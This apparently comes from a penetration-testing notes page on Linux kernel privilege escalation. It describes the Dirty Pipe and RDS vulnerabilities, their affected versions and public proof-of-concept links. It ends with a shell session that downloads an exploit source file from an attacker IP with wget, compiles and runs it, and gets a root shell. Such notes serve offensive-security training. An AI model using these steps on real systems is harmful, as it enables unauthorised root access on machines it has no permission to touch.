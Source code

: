 # Kernel

## Dirty Pipe

{% hint style="warning" %}
* Affected versions:&#x20;
  * `5.8` ≤ version < `5.16.11`
  * `5.15` ≤ version < `5.15.25`
  * `5.10` ≤ version < `5.10.102`
* PoC: [https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
{% endhint %}

Dirty Pipe ([CVE-2022-0847](https://nvd.nist.gov/vuln/detail/cve-2022-0847)) is a Linux kernel vulnerability that allows unprivileged local users to escalate privileges by exploiting uninitialized `pipe_buffer` flags. Due to a flaw in how the kernel handles pipes (`copy_page_to_iter_pipe()` and `push_pipe()`), stale flag values may grant unintended write access to pages in the page cache, even if they back read-only files.

By injecting data into these cached pages, it becomes possible to overwrite sensitive files (e.g., `/etc/passwd`) without modifying the actual filesystem. This enables silent privilege escalation and arbitrary code injection without detection by most integrity controls.

## RDS

{% hint style="warning" %}
* Affected versions: ≤ `2.6.36`
* PoC: [https://www.exploit-db.com/exploits/15285](https://www.exploit-db.com/exploits/15285)
{% endhint %}

The [CVE-2010-3904](https://nvd.nist.gov/vuln/detail/cve-2010-3904) vulnerability affects the RDS (Reliable Datagram Sockets) implementation in the Linux kernel prior to version `2.6.36`. The function `rds_page_copy_user()` fails to properly validate user-supplied memory addresses during `sendmsg` and `recvmsg` calls. As a result, a local attacker can write arbitrary data to kernel memory.

This flaw allows reliable privilege escalation by overwriting function pointers or other critical kernel structures. No special capabilities are required beyond local access and the ability to open an RDS socket. Because it directly manipulates kernel memory, exploitation is fast and effective, making it highly valuable for post-exploitation or lateral movement in older systems that remain unpatched.

```bash
$ wget http://192.168.45.170:443/linux-rds-exploit.c -O /tmp/linux-rds-exploit.c
$ chmod +x linux-rds-exploit.c
$ gcc linux-rds-exploit.c -o rds
$ ./rds
[*] Got root!
# id
uid=0(root) gid=0(root)
```
